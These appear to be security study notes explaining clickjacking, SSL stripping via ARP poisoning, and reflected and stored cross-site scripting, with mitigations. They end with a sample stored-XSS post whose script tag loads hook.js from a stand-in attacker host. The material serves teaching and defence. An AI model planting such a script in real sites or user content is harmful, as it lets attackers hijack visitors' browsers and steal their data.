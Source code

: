 ### Clickjacking

Clickjacking is an attack where what the user sees and trusts as a web application with some sort of login page or form contains a **malicious** **layer** or invisible iFrame (a web page embedded inside another web page) that allows an attacker to intercept or redirect user input. Clickjacking can be launched using any type of compromise that allows the **adversary to run arbitrary code as a script.** Clickjacking can be **[[mitigated]]** by using HTTP response headers that instruct the browser not to open frames from different origins (domains) and by ensuring that any buttons or input boxes on a page are positioned on the top-most layer.

### SSL Strip

A Secure Sockets Layer ([[SSL]]) strip attack is launched against clients on a local network as they try to make connections to websites. The [[threat actor]] must first perform a Man-in-the-Middle ([[MITM]]) attack via [[ARP]] poisoning to masquerade as the default gateway. When a client requests an HTTP site that redirects to an HTTPS site in an unsafe way, the sslstrip utility ([https://github.com/moxie0/sslstrip](https://github.com/moxie0/sslstrip)) proxies the request and response, serving the client the HTTP site, hopefully with an unencrypted login form. If the user enters credentials, they will be captured by the [[threat actor]]. Sites can use the HTTP Strict Transport Security (HSTS) lists maintained by browsers to prevent clients requesting HTTP in the first place. 

Play Video
# CROSS-SITE SCRIPTING 

Web applications depend on scripting, and most websites these days are web applications rather than static web pages. If the user attempts to disable scripting, very few sites will be left available. A cross-site scripting ([[XSS]]) attack exploits the fact that the browser is likely to trust scripts that appear to come from a site the user has chosen to visit. XSS inserts a malicious script that appears to be part of the trusted site. A nonpersistent type of XSS attack would proceed as follows:

1.  The attacker identifies an input validation vulnerability in the trusted site.
2.  The attacker crafts a URL to perform a code injection against the trusted site. This could be coded in a link from the attacker's site to the trusted site or a link in an email message.
3.  When the user clicks the link, the trusted site returns a page containing the malicious code injected by the attacker. **As the browser is likely to be configured to allow the site to run scripts,** the malicious code will execute.

The malicious code could be **used to** deface the trusted site (by adding any sort of arbitrary HTML code), steal data from the user's cookies, try to intercept information entered into a form, perform a request forgery attack, or try to install malware. The crucial point is that the malicious code runs in the client's browser with the same permission level as the trusted site.

An attack where the malicious input comes from a crafted link is a reflected or nonpersistent XSS attack. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. For example, the attacker may submit a post to a bulletin board with a malicious script embedded in the message. When other users view the message, the malicious script is executed. For example, with no input sanitization, a [[threat actor]] could type the following into a new post text field:

Check out this amazing <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.
